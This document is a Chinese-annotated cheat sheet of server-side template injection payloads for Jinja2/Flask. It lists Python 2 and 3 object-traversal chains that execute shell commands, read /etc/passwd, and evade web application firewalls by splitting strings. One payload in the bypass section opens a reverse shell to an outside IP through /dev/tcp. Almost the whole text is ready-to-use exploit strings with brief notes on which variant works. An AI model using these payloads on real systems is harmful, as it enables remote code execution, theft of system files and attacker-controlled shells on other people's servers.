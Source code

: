 不回显

```
http://127.0.0.1/{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']('1+1')}}      
http://127.0.0.1/{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').system('whoami')")}}
```

```
{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}(这条指令可以注入，但是如果直接进入python2打这个poc，会报错，用下面这个就不会，可能是python启动会加载了某些模块)  
http://39.105.116.195/{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}(system函数换为popen('').read()，需要导入os模块)  
{{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}(不需要导入os模块，直接从别的模块调用)
```

python3

文件读取

```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
```

命令执行

```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}
```

脚本使用示例：

```
ttp://192.168.228.36/?name={% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='ImmutableDictMixin' %}{{ c.__hash__.__globals__['__builtins__'].eval('__import__("os").popen("id").read()') }}{% endif %}{% endfor %}
```

```
绕waf
python2：
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')
[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')
"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')
"".__class__.__mro__[-1].__subclasses__()[40](filename).read()
"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i >& /dev/tcp/172.6.6.6/9999 0>&1"')

python3：
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']
"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('__global'+'s__')['os'].__dict__['system']('ls')
```
